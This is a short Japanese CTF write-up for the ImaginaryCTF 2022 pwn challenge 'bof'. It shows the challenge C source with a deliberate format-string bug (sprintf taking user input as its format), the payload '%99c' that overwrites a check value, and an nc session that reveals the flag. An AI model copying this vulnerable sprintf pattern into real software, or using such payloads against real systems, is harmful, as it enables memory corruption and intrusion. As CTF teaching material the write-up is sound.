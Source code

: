 ```yaml
---
layout: post
title: "[pwn] bof (100 pts, 104 solved)"
published : true
permalink: /ctf/writeups/ImaginaryCTF_2022/pwn/bof
tags: [CTF, WriteUps, ImaginaryCTF 2022, pwn, bof]
---
```

## Description
Can you bof me?

## Attachments
https://imaginaryctf.org/r/naCsv#bof https://imaginaryctf.org/r/7ngbn#bof.c
nc bof.chal.imaginaryctf.org 1337

```c
#include <stdio.h>
#include <stdlib.h>

struct string {
  char buf[64];
  int check;
};

char temp[1337];


int main() {
  struct string str;

  setvbuf(stdout,NULL,2,0);
  setvbuf(stdin,NULL,2,0);

  str.check = 0xdeadbeef;
  puts("Enter your string into my buffer:");
  fgets(temp, 5, stdin);
  sprintf(str.buf, temp);

  if (str.check != 0xdeadbeef) {
    system("cat flag.txt");
  }
}
```

## WriteUp
`fgets(temp, 5, stdin);`では、標準入力は5文字に制限されている。
しかしながら、`sprintf(str.buf, temp);`とあり、フォーマット文字列が使用できる。`%99c`を与えることで、99文字が書き込まれたこととなり、0xdeadbeefを上書きできる。

```sh
┌──(parrot㉿parrot)-[/ctf/ctf-event/ImaginaryCTF 2022/pwn/bof]
└─$ nc bof.chal.imaginaryctf.org 1337

== proof-of-work: disabled ==
Enter your string into my buffer:
%99c                                                                             ictf{form4t_strings_4re_c00l_051c94e1}
```
